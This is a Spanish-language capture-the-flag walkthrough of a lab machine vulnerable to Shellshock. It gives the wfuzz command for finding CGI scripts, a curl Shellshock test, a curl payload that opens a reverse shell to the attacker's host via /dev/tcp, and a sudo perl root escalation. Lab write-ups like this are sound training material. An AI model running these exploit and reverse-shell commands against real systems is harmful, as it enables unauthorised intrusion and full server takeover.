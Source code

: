 Empezamos listando los puertos abiertos: 

![image](https://user-images.githubusercontent.com/122020487/227734927-1d08866e-35e0-42b4-a802-09ee5d913842.png)

Vemos que solo tenemos el puerto 80 disponible para atacar ya que el puerto 2222 es ssh y no tenemos credenciales, por lo tanto entramos a la web viendo el siguiente contenido: 

![image](https://user-images.githubusercontent.com/122020487/227735008-08d49cee-aea2-4ffb-8c9a-f67c350a0225.png)

Como no vemos nada con lo que podamos empezar, comenzamos con el fuzzing de la web: 

![image](https://user-images.githubusercontent.com/122020487/227735075-73406ff3-13fb-448f-b525-2577c18b7286.png)

Vemos dos directorios en este caso nos interesa cgi-bins ya que a priori icons no debería ser de interés, por lo que procedemos a fuzzear el path de cgi-bin. Ya sabemos que este path contiene scripts y que puede ser vulnerable a shellshock por lo que procedemos a buscar los scripts que hay dentro del directorio:

wfuzz -c --hc=404 -t 200 -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi-ps1-py http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z 
![image](https://user-images.githubusercontent.com/122020487/227735718-8d380e7b-4b3c-46b6-9a5e-f8d09a7103d0.png)

Hemos obtenido el script user.sh, por lo que si hacemos una petición al directorio se nos descargará el script: 

![image](https://user-images.githubusercontent.com/122020487/227735833-bc3621c8-80d3-43ec-a41a-24ecea5ae521.png)

Ahora procedemos con nmap a comprobar si este path es vulnerable a shellshock: 

![image](https://user-images.githubusercontent.com/122020487/227736032-8eaed6b7-2d65-430d-9af5-38fd22462638.png)

También para saber si es vulnerable podemos usar la siguiente petición: 

curl -H 'User-Agent: () { :; }; echo; echo web vulnerable' 'http://10.10.10.56/cgi-bin/user.sh'
![image](https://user-images.githubusercontent.com/122020487/227736234-d021e631-daf6-4619-aa8e-25361232a8fe.png)

Como vemos, el path es vulnerable por lo que empezamos a explotar la vulnerabilidad enviandonos una web shell: 

curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.6/333 0>&1"' 'http://10.10.10.56/cgi-bin/user.sh'

Una vez hemos obtenido la webshell mediante netcat podemos ejecutar comandos en el propio servidor y obtener la flag del usuario:

![image](https://user-images.githubusercontent.com/122020487/227736480-40b7ae33-2c88-4580-b947-678209bc00fe.png)

La escalada es bastante fácil, lanzamos el comando sudo -l y vemos que podemos usar sudo con perl:

![image](https://user-images.githubusercontent.com/122020487/227736513-2e18f97d-1cdd-4665-8691-328f804e0e0e.png)

Por lo que conseguimos escalar privilegios con el siguiente comando: 

sudo perl -e 'exec "/bin/bash";'
![image](https://user-images.githubusercontent.com/122020487/227736596-71021373-88cd-4ea4-b66a-452d940cda63.png)
